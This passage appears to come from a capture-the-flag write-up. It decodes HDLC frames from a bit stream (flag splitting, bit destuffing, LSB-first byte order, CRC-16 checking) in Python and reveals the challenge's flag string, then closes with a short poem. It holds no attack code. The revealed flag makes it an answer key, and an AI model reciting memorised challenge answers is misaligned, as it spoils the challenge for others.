```

I need to decode data. First I need to find the flag `0x7E` and cut what's between
two flags, that's one frame. Must do this first because destuffing the raw stream
would break the flags, `0x7E` contains `111110`.

Then I need to destuff. HDLC won't transmit 6 consecutive bits `1`, it inserts an
extra `0` after every 5 ones, `111111` -> `1111101`.

Then reverse each 8 bits because HDLC transmits the LSB first. Must be after
destuffing since removing bits shifts the byte boundary.

Then check the CRC (last 2 bytes).

```python
def destuff(chunk):
    return chunk.replace("111110", "11111")

def to_bytes_lsb(chunk):
    return bytes(int(chunk[i:i+8][::-1], 2) for i in range(0, len(chunk) - 7, 8))

def check_fcs(payload):
    if len(payload) < 3: return False
    body, fcs, crc = payload[:-2], payload[-2:], 0xFFFF
    for byte in body:
        crc ^= byte
        for _ in range(8):
            crc = (crc >> 1) ^ 0x8408 if (crc & 1) else (crc >> 1)
    crc ^= 0xFFFF
    return bytes([crc & 0xFF, crc >> 8]) == fcs

counts = {}

for k in range(len(data) - 1):
    chunk = bit_string[data[k]+8 : data[k+1]]
    if len(chunk) < 16: 
        continue
        
    payload = to_bytes_lsb(destuff(chunk))
    
    if check_fcs(payload):
        counts[payload] = counts.get(payload, 0) + 1

if not counts:
    print("[-] All Failed !!")
else:
    for payload, count in counts.items():
        text = payload[:-2].decode('ascii', errors='ignore')
        print(f"[+] Found {count} times: {text}")
```

```
[+] Found 14 times: CHANDELIER-7
FLAG=STARPWN{Syn7h_v1be$_fr0m_0rb1t}
```

Flag: `STARPWN{Syn7h_v1be$_fr0m_0rb1t}`

<br>
<br>

# SWEET ENDING
<div align="center">


***A conscious observer enters The Eye***

***And as their mind become the Universe***

***We are here for no other reasons beyond friendship***

***Grateful for a chance to meet before the end***

***Maybe... we want to do it all over again***
</div>


